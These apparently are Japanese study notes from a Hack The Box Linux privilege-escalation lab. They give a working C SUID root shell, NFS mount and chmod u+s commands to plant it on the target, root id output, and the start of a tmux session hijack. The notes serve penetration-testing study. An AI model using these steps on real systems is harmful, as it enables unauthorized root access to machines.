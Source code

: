 たとえば、ローカルのrootユーザーを使用して/bin/shを実行するSETUIDバイナリを作成できる
次に、/tmpディレクトリをローカルにマウントし、root所有のバイナリをNFSサーバーにコピーして、SUIDビットを設定できる

1. 簡単なバイナリを作成
```shell-session
htb@NIX02:~$ nano shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

2. コンパイルする
```shell-session
htb@NIX02:/tmp$ gcc shell.c -o shell
```

3. ディレクトリをローカルにマウント
	コピーして、必要な権限を設定する
**root権限でやらないとダメ**
```shell-session
sudo su - root
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.210:/tmp /mnt
root@Pwnbox:~$ sudo chown root:root /mnt/shell
root@Pwnbox:~$ sudo chmod u+s /mnt/shell
```

4. ホストの低権限セッションに戻ると、バイナリを実行してrootシェルを取得できる
作成した shell 実行ファイルを実行し、root 権限を取得する
```shell-session
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```


## Tmuxセッションのハイジャック
- tmuxなどのターミナルマルチプレクサを使用すると、単一のコンソールセッション内で複数のターミナルセッションにアクセスできる
- tmuxウィンドウで作業していない場合、セッションからデタッチしても、セッションをアクティブなままにすることができる
- 多くの理由により、ユーザーは、弱い権限で設定されたrootなどの特権ユーザーとしてtmuxプロセスを実行したままにする可能性があり、ハイジャックされる可能性がある
- 新しい共有セッションを作成し、所有権を変更することで実行できる

共有Tmuxセッションを作成し、所有権を変更する
```shell-session
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```
